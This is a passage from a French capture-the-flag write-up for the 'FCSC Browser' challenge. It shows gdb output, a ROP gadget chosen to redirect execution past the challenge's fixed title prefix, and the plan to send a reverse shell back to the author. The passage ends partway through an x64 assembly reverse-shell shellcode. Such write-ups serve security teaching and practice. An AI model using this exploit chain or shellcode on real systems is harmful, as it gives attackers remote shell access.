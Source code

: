 Il nous faudrait donc un gadget du type `call qword ptr [rax]` ou `jmp qword ptr [rax]`.

Cependant, le titre que nous contrôlons est précédé par `FCSC Browser - ` qui n'est pas du code valide (que nous pouvons vérifier facilement dans gdb):

```
gef➤  x/s *$rax
0x94d380:	"FCSC Browser - ", 'A' <repeats 177 times>, "\200Ӕ"
gef➤  x/8i *$rax
   0x94d380:	rex.RX
   0x94d381:	rex.XB push r11
   0x94d383:	rex.XB and BYTE PTR [r10+0x72],al
   0x94d387:	outs   dx,DWORD PTR ds:[rsi]
   0x94d388:	ja     0x94d3fd
   0x94d38a:	gs jb  0x94d3ad
   0x94d38d:	sub    eax,0x41414120
   0x94d392:	rex.B
```

Nous devons donc trouver un moyen de jumper quelques octets après `[rax]`. 



### Recherche d'un one gadget

En cherchant un peu dans les gadgets fournis par `ROPgadget` et `ropper`, j'ai trouvé ce gadget qui semble complètement correspondre à ce que l'on veut faire: 

```
0x0000000000403e67: add byte ptr [rax], bl; jmp qword ptr [rax]; 
```

Cela va donc modifier `[rax]` de la façon suivante:

```
$rax   : 0x00007fffffffce70  →  0x00000000007a2e80 + X  →  "AAAAAAAAA[...]"
```

Et ensuite sauter à l'adresse pointée par `rax`!

`X` correspond au LSB de `rbx` que nous contrôlons, car `rbx` est directement récupéré sur la pile avant de sortir de la fonction `addBrowser`:

![Ghidra pop RBX](img/ghidra-popret.png)

Nous avons maintenant tout ce qu'il nous faut. Étant donné le contexte du challenge, où nous devons envoyer une URL qui accédée par un bot, nous devons pouvoir exécuter un reverse shell directement vers chez nous.

J'ai repris un shellcode de mon github (https://github.com/voydstack/shellcoding/blob/master/x64/reverse-shell/reverse-shell.asm), et l'ai un peu modifié pour pallier au nullbyte présent à la fin de `/bin/sh`:

```assembly
bits 64
section .text
global _start

_start:
	
	; socket(AF_INET, SOCK_STREAM, 0)
	; (2, 1, 0)
	xor rax, rax
	mov rdx, rax
	mov al, 41
	mov rsi, rdx
	inc rsi
	mov rdi, rsi
	inc rdi

	syscall
```